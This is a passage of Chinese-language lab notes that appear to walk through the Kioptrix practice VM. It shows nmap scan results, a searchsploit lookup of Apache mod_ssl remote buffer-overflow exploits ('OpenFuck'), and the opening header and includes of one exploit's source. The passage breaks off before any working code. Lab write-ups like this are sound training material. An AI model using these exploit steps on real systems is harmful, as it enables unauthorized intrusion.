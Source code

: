 					  Host script results:
					  |_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
					  |_smb2-time: Protocol negotiation failed (SMB2)
					  |_clock-skew: 1h01m50s
					  
					  TRACEROUTE
					  HOP RTT     ADDRESS
					  1   0.37 ms 192.168.204.44
					  
					  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
					  Nmap done: 1 IP address (1 host up) scanned in 25.98 seconds
					  ```
				- 利用 `searchspolit` 在無網狀態查詢服務是否存在漏洞
					- ```shell
					  ┌──(kali㉿kali)-[~]
					  └─$ searchsploit mod_ssl 2.8.4
					  ----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
					   Exploit Title                                                                                                                                             |  Path
					  ----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
					  Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                                                       | unix/remote/21671.c
					  Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                                                 | unix/remote/764.c
					  Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                                                 | unix/remote/47080.c
					  ----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
					  Shellcodes: No Results
					  ```
				- 查看詳細資訊
					- ```shell
					  searchsploit -x 47080
					  ```
					- 看見攻擊腳本
						- ```shell
						  /*
						   * OF version r00t VERY PRIV8 spabam
						   * Version: v3.0.4
						   * Requirements: libssl-dev    ( apt-get install libssl-dev )
						   * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
						   * objdump -R /usr/sbin/httpd|grep free to get more targets
						   * #hackarena irc.brasnet.org
						   * Note: if required, host ptrace and replace wget target
						   */
						  
						  #include <arpa/inet.h>
						  #include <netinet/in.h>
						  #include <sys/types.h>
						  #include <sys/socket.h>
						  #include <netdb.h>
						  #include <errno.h>
						  #include <string.h>
						  #include <stdio.h>
						  #include <unistd.h>
						  